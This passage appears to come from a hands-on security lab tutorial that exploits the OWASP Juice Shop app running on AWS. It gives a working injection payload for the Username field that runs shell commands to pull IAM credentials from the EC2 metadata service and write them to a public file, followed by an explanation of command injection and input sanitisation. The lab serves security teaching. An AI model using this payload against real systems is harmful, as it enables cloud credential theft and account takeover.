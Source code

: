 <br/>

---

## Step 3 - Exploit the Web App

<br/>

**In this step, you're going to:**
- Steal AWS credentials.
- Access the stolen credentials

<br/>

- ![image](https://github.com/user-attachments/assets/c38d3679-9b50-4811-b927-1f83d2cf7758)

<br/>

- Let's run **malicious code**! To begin, click the Account option on the top right hand corner. Then, click your admin@juice-sh.op email.
- ![image](https://github.com/user-attachments/assets/1eebd98d-2c9b-47f3-bb91-424a2438bb7b)
- Here we see a profile page:
- ![image](https://github.com/user-attachments/assets/5f6fb64e-2c61-4e76-ad55-e0fa5782c088)
- Click into the "**Username**:" field, and paste the following JavaScript code:

<br/>

```javascript
#{global.process.mainModule.require('child_process').exec('CREDURL=http://169.254.169.254/latest/meta-data/iam/security-credentials/;TOKEN=`curl -X PUT "http://169.254.169.254/latest/api/token" -H "X-aws-ec2-metadata-token-ttl-seconds: 21600"` && CRED=$(curl -H "X-aws-ec2-metadata-token: $TOKEN" -s $CREDURL | echo $CREDURL$(cat) | xargs -n1 curl -H "X-aws-ec2-metadata-token: $TOKEN") && echo $CRED | json_pp >frontend/dist/frontend/assets/public/credentials.json')}
```

<br/>

- ![image](https://github.com/user-attachments/assets/6187e6ed-84fa-45e2-972e-f65b37ddea71)

<br/>

> [!NOTE]
>  💡 **Why are we entering code in the Username field?**
> 
> Imagine asking someone for their name—but instead, they put you in a trance, hand you instructions to unlock your phone, and you end up giving it to **THEM**. That's essentially what happens during **command injection** on the admin portal of our web app.
> 
> This is a **serious security vulnerability** where the server misinterprets input data as executable commands. The web app expected a username, but instead received a script that steals **IAM credentials** from the EC2 instance it's running on.
> 
> 🧨 **Impact:** Attackers can use this technique to access sensitive data, manipulate services, or even gain control over cloud infrastructure.
> 
> ---
> 
> 💡 **Why does this vulnerability exist?**
> 
> The core issue lies in the app’s failure to **sanitize input**. Input sanitization ensures user-submitted data is treated as plain text—not executable code.
> 
> Without sanitization, attackers can inject malicious commands, which the server then unknowingly executes.
> 
> ---
> 